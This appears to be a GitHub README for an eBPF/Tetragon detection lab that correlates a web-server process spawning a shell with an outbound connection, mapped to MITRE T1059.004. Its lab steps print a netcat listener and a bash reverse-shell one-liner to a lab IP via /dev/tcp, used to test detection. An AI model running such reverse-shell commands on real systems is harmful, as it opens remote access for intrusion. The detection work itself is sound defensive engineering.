



# 🛰️ Sentinel Trace v2.0 — Correlation & Context: Exploring Reverse Shell (Work in Progress)

**The Goal:** Moving from isolated signals to **behavioral chains**. 
Instead of just seeing a process, we link it to network activity and MITRE ATT&CK techniques.

### 🔭 New Capabilities
- **Network Observability:** Monitoring TCP/UDP connections in real-time via Tetragon.
- **Signal Correlation:** Linking a `process_exec` (Shell) to a `socket_connect` (Reverse Shell).
- **Multi-Node Lab:**
  - 🛡️ **Debian 12** (Target): Protected by Sentinel Trace.
  - 🛡️ **Metasploitable3** (Vulnerable Target): Expanded monitoring.
  - 💀 **Kali Linux** (Attacker): Simulation of RCE and Privilege Escalation.

### 🛡️ Planned Scenario: The Reverse Shell Chain
Sentinel Trace v2.0 will detect the following sequence as a single high-priority alert:
1. `Nginx` (UID 33) spawns `/bin/sh` (**Process Signal**)
2. `/bin/sh` initiates an outbound connection to a non-standard port 4444 (**Network Signal**)
3. **Reasoning:** Unauthorized Outbound Shell (MITRE T1059.004).

### 🛠️ Infrastructure Evolution
- Integration of **Grafana Loki** or **ELK** to centralize and visualize eBPF signals.
- First automated enforcement rules (**Sigkill** on confirmed C2 connections).


# 🧪 Tetragon Standalone — RCE Correlation Lab (Genesis)

## 🛠️ Step-by-Step Lab Setup

---

## 1️⃣ Attacker (Kali) Side 


Listener receiving incoming connection from the target

```bash
# Start a Netcat listener on port 4444
nc -lvnp 4444
```

---

## 2️⃣ Target (Debian) Side


Activation of the correlation policy and launch of real-time monitoring with Identity ("organization","Tetragon","cilium ebpf security tool").

```bash
# 1. Add the network observability policy
sudo tetra tracingpolicy add policies/v2-correlation/03-network-observability.yaml

# 2. Start the correlation monitor (Filtering for www-data activity)
sudo tetra getevents --output json | jq -ce '
  select(.process_kprobe.process.uid == 33 or .process_exec.process.uid == 33)
'
```

---

## 3️⃣ The Attack (Exploit Simulation)


Simulation of reverse shell activation as a web user.

```bash
# Execute the reverse shell payload
sudo -u www-data bash -c "bash -i >& /dev/tcp/192.168.19.144/4444 0>&1"
```

---
